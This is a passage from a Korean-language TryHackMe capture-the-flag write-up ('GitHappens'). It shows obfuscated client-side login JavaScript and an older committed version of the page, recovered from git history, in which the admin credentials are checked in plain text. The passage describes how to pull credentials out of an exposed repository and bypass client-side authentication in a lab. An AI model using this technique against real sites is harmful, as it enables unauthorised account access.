digest(_0x110afb[_0x2c28('0x2d')+'ts'][_0x2c28('0x5')+'rd'][_0x2c28('0x0')]);_0x383cb8===_0x2c28('0xd')&&_0x5b6063===_0x2c28('0x24')+_0x2c28('0xe')+'6ba9b0'+_0x2c28('0x21')+'7eed08'+_0x2c28('0x38')+_0x2c28('0x16')+_0x2c28('0x9')+_0x2c28('0x35')+_0x2c28('0x2c')+_0x2c28('0x20')+'f3cb6a'+_0x2c28('0x2a')+_0x2c28('0x1e')+_0x2c28('0x2e')+_0x2c28('0x2b')+_0x2c28('0x14')+_0x2c28('0x15')+_0x2c28('0xb')+_0x2c28('0x1d')+'94eceb'+'bb'?(document[_0x2c28('0xc')]='login='+'1',window['locati'+'on'][_0x2c28('0x13')]=_0x2c28('0x1f')+_0x2c28('0x1a')+_0x2c28('0x8')):document['getEle'+_0x2c28('0x36')+'Id'](_0x2c28('0x1b'))[_0x2c28('0x31')+_0x2c28('0x7')]=_0x2c28('0x29')+_0x2c28('0x17')+_0x2c28('0x27')+_0x2c28('0x19')+_0x2c28('0x25');}async function digest(_0x35521d){const _0x179c00=new TextEncoder(),_0x713734=_0x179c00[_0x2c28('0x28')](_0x35521d+(_0x2c28('0x32')+'ob')),_0x39b76f=await crypto['subtle'][_0x2c28('0x18')]('SHA-51'+'2',_0x713734),_0x558ac0=Array[_0x2c28('0x23')](new Uint8Array(_0x39b76f)),_0x34e00e=_0x558ac0[_0x2c28('0x26')](_0x468ec7=>_0x468ec7['toStri'+'ng'](0x10)[_0x2c28('0x22')+'rt'](0x2,'0'))[_0x2c28('0x30')]('');return _0x34e00e;}
    </script>
  </body>
</html>
```

### COMMIT한 시점

```bash
──(root㉿vbox)-[~/THM/GitHappens/result]
└─# cat index.html                                
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Super Awesome Site!</title>
    <link rel="stylesheet" href="/css/style.css">
  </head>
  <body>
    <h1>Login</h1>
    <form class="login-form" id="login-form">
     <div class="flex-row">
         <p class="error" id="error"></p>
     </div>
      <div class="flex-row">
        <label class="lf--label" for="username">
          <svg x="0px" y="0px" width="12px" height="13px">
            <path
              fill="#B1B7C4"
              d="M8.9,7.2C9,6.9,9,6.7,9,6.5v-4C9,1.1,7.9,0,6.5,0h-1C4.1,0,3,1.1,3,2.5v4c0,0.2,0,0.4,0.1,0.7 C1.3,7.8,0,9.5,0,11.5V13h12v-1.5C12,9.5,10.7,7.8,8.9,7.2z M4,2.5C4,1.7,4.7,1,5.5,1h1C7.3,1,8,1.7,8,2.5v4c0,0.2,0,0.4-0.1,0.6 l0.1,0L7.9,7.3C7.6,7.8,7.1,8.2,6.5,8.2h-1c-0.6,0-1.1-0.4-1.4-0.9L4.1,7.1l0.1,0C4,6.9,4,6.7,4,6.5V2.5z M11,12H1v-0.5 c0-1.6,1-2.9,2.4-3.4c0.5,0.7,1.2,1.1,2.1,1.1h1c0.8,0,1.6-0.4,2.1-1.1C10,8.5,11,9.9,11,11.5V12z"
            />
          </svg>
        </label>
        <input
          id="username"
          name="username"
          class="lf--input"
          placeholder="Username"
          type="text"
        />
      </div>
      <div class="flex-row">
        <label class="lf--label" for="password">
          <svg x="0px" y="0px" width="15px" height="5px">
            <g>
              <path
                fill="#B1B7C4"
                d="M6,2L6,2c0-1.1-1-2-2.1-2H2.1C1,0,0,0.9,0,2.1v0.8C0,4.1,1,5,2.1,5h1.7C5,5,6,4.1,6,2.9V3h5v1h1V3h1v2h1V3h1 V2H6z M5.1,2.9c0,0.7-0.6,1.2-1.3,1.2H2.1c-0.7,0-1.3-0.6-1.3-1.2V2.1c0-0.7,0.6-1.2,1.3-1.2h1.7c0.7,0,1.3,0.6,1.3,1.2V2.9z"
              />
            </g>
          </svg>
        </label>
        <input
          id="password"
          name="password"
          class="lf--input"
          placeholder="Password"
          type="password"
        />
      </div>
      <input class='lf--submit' type="button" value="LOGIN" onclick="login()" />
    </form>

   

    <script>
      function login() {
        let form = document.getElementById("login-form");
        console.log(form.elements);
        let username = form.elements["username"].value;
        let password = form.elements["password"].value;
        if (
          username === "admin" &&
          password === "{password}"
        ) {
          document.cookie = "login=1";
          window.location.href = "/dashboard.html";
        } else {
          document.getElementById("error").innerHTML =
            "INVALID USERNAME OR PASSWORD!";
        }
      }
    </script>
  </body>
</html>

```

## FLAG 슛~


